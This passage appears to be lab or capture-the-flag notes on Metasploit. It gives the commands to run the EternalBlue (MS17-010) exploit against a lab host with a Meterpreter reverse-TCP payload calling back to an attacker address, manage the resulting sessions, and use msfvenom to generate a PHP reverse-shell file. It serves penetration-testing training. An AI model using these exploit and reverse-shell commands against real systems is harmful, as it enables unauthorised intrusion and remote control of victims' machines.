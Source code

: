 ### 🔍 Example: EternalBlue
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```

### 🧬 Set Exploit Options
```bash
set RHOSTS 10.10.12.229
set LHOST 10.10.x.x
set LPORT 4444
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

> May require trial-and-error depending on AV/firewall restrictions.

---

### 🔗 After Exploitation
List sessions:
```bash
sessions
```

Interact with session:
```bash
sessions -i 1
```

Background session:
```bash
CTRL+Z
```

Session help:
```bash
sessions -h
```

---

## 🧪 Task 6 - Msfvenom (Payload Generation)

### 🧾 List All Payloads
```bash
msfvenom -l payloads
```

### 🔧 Generate Payload (PHP)
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=7777 -f raw > reverse_shell.php
```

Add missing tags:
```php
<?php
// payload...
?>
```
